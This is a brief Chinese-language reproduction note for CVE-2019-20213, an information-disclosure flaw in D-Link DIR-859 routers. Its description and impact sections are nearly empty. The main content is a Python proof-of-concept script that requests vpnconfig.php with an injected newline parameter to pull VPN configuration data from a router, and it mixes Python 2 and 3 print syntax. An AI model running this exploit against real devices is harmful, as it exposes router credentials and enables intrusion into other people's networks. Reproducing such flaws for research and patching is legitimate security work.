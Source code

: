 ## 一、漏洞简介

## 二、漏洞影响

![image](resource/%EF%BC%88CVE-2019%E2%80%9320213%EF%BC%89D-Link%20DIR-859%20rce/media/6-20201014111625558.png)

## 三、复现过程

```
import requests
# Miguel Mendez Z.
FILES = ["vpnconfig.php"]
IP = "192.168.0.1"
PORT = "80"
headers = {'content-type': 'application/x-www-form-urlencoded'}
print "\n-----------VPN-------------\n"
url_vpn = 'http://{ip}:{port}/{file1}?pwnd=%0a'.format(ip=IP, port=PORT, file1=FILES[0])
print(requests.get(url_vpn).text)
```